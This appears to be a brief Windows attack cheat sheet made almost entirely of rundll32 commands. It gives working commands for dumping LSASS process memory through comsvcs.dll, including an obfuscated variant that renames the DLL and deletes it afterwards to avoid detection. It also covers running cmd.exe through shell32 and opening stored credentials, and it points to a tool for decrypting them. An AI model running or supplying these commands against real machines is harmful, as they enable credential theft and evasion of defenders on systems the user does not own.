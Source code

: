 ### Dump lsass process
```
rundll32.exe C:\windows\System32\comsvcs.dll MiniDump (Get-Process lsass).id <fullPath>\lsassdump.dmp full
```

### Dump lsass process obfuscated
```
$id = Get-Process lsass; cd c:\tmp; copy C:\Windows\System32\comsvcs.dll <newName>.dll; rundll32.exe <newName>.dll, MiniDump $id.Id c:\tmp\<file>.dmp full; Wait-Process -Id (Get-Process rundll32).id; del <newName>.dll;
```

### Run cmd.exe
```
rundll32.exe SHELL32.DLL,ShellExec_RunDLL "cmd.exe" "/c <command>
```

### Remove ClickOnce applications
```
rundll32 dfshim CleanOnlineAppCache
```

### Dump passwords of DPAPI to file
```
rundll32.exe keymgr.dll, KRShowKeyMgr
```

### Decrypt using
https://www.nirsoft.net/utils/credentials_file_view.html


